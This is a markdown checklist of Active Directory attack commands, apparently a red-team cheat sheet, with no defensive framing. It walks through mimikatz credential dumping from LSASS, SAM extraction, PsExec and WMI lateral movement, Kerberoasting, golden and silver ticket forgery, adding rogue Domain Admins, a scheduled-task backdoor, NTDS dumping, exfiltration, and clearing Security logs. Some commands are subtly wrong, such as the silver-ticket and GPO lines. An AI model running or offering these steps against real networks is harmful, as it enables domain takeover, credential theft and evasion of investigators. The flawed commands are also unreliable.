 # Active Directory Attack Checklist

##  Reconnaissance
- [ ] Enumerate domain information: `whoami /all`, `nltest /domain_trusts`
- [ ] List domain controllers: `nltest /dclist:<domain>`
- [ ] Find users and groups: `net user /domain`, `net group /domain`
- [ ] Enumerate shares: `net share`, `net view /domain`
- [ ] Check for open SMB ports: `nmap -p 139,445 --script=smb-enum-shares <target>`
- [ ] Extract DNS records: `nslookup -type=all <domain>`

##  Credential Gathering
- [ ] Dump credentials from LSASS: `mimikatz sekurlsa::logonpasswords`
- [ ] Check for saved credentials: `cmdkey /list`
- [ ] Extract credentials from SAM database: `reg save HKLM\SAM sam.save`
- [ ] Look for plaintext passwords in scripts, files, and GPP: `findstr /S /I "password" *.*`

##  Privilege Escalation
- [ ] Check local admin privileges: `whoami /priv`
- [ ] Identify misconfigured services: `accesschk.exe /accepteula -uwcqv "Everyone" *`
- [ ] Exploit Unquoted Service Paths: `wmic service get name,pathname | findstr /i "C:\Program Files"`
- [ ] Abuse AlwaysInstallElevated: `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
- [ ] Exploit writable system paths: `icacls <path>`

##  Lateral Movement
- [ ] Find accessible systems: `net view`, `wmic /node:<target> process list`
- [ ] Use PsExec: `psexec.exe \<target> -u <user> -p <password> cmd.exe`
- [ ] Use WMI for remote execution: `wmic /node:<target> process call create "cmd.exe"`
- [ ] Use RDP if enabled: `mstsc /v:<target>`

##  Kerberos Attacks
- [ ] Enumerate SPNs for Kerberoasting: `GetUserSPNs.py -dc-ip <DC-IP> <DOMAIN>/<USER>:<PASS>`
- [ ] Perform Pass-the-Ticket: `mimikatz "kerberos::list"`
- [ ] Perform Golden Ticket attack: `mimikatz "kerberos::golden /user:Administrator /domain:<domain> /sid:<SID> /krbtgt:<NTLM>"`
- [ ] Perform Silver Ticket attack: `mimikatz "kerberos::silver /service:cifs /target:<TARGET> /domain:<DOMAIN> /sid:<SID> /krbtgt:<NTLM>"`

##  Domain Persistence
- [ ] Add rogue admin users: `net user <user> /add && net group "Domain Admins" <user> /add`
- [ ] Create a scheduled task: `schtasks /create /tn backdoor /tr "cmd.exe /c <command>" /sc minute /mo 1`
- [ ] Modify GPO for persistence: `gpupdate /force`
- [ ] Dump Active Directory database: `ntdsutil "ac i ntds" "ifm" create full C:\dump`

##  Exfiltration & Cleanup
- [ ] Compress and exfiltrate sensitive data: `tar -czvf archive.tar.gz <folder>`
- [ ] Clear event logs: `wevtutil cl Security`
- [ ] Remove created users and scheduled tasks: `net user <user> /delete`, `schtasks /delete /tn <task>`
- [ ] Remove backdoors: `reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v <value>`

---

##  Resources
- [MITRE ATT&CK - Active Directory Techniques](https://attack.mitre.org/techniques/enterprise/)
- [Harmj0y's Blog on AD Attacks](https://www.harmj0y.net/)
- [BloodHound GitHub](https://github.com/BloodHoundAD/BloodHound)
- [Red Team Field Manual (RTFM)](https://leanpub.com/rtfm)
- [Mimikatz Official Repository](https://github.com/gentilkiwi/mimikatz)


